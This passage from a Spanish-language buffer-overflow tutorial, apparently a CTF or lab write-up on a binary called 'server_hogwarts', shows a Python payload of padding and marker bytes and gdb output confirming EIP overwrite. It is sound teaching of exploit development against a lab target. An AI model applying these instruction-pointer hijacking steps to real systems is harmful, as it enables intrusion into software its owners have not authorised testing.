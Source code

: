 Más específicos, nos interesan estos dos: **EIP y EBP**.

Podemos confirmar que, después del **offset**, se reescribe el **EIP** y luego se escriben más caracteres. 

Con **Python**, podemos generar varios caracteres para cumplir con el **offset**, sobreescribir el **EIP** y registrar n cantidad de caracteres después:
```bash
python3 -c 'print("A"*112 + "B"*4 + "C"*100)'
```

Con **gdb**, ejecuta el binario y manda el payload para ver la respuesta: 
```bash
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xffffcbbc  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$ebx   : 0x41414141 ("AAAA"?)
$ecx   : 0xffffce50  →  0x0000000a ("\n"?)
$edx   : 0xffffcc94  →  0x0000000a ("\n"?)
$esp   : 0xffffcc30  →  "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC[...]"
$ebp   : 0x41414141 ("AAAA"?)
$esi   : 0x080b3158  →  "../csu/libc-start.c"
$edi   : 0xffffd178  →  "\nEnter your spell: "
$eip   : 0x42424242 ("BBBB"?)
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63 
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffcc30│+0x0000: "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC[...]"    ← $esp
0xffffcc34│+0x0004: "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC[...]"
0xffffcc38│+0x0008: "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC[...]"
0xffffcc3c│+0x000c: "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC[...]"
0xffffcc40│+0x0010: "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC[...]"
0xffffcc44│+0x0014: "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC[...]"
0xffffcc48│+0x0018: "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC[...]"
0xffffcc4c│+0x001c: "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC[...]"
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x42424242
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "server_hogwarts", stopped 0x42424242 in ?? (), reason: SIGSEGV
────────────────────────────────────────────────────────────────────────────────────────
```
Excelente, observa que ahí están las **4 B's** que creamos con el payload dentro del **EIP** y después quedan registradas las **C's**.
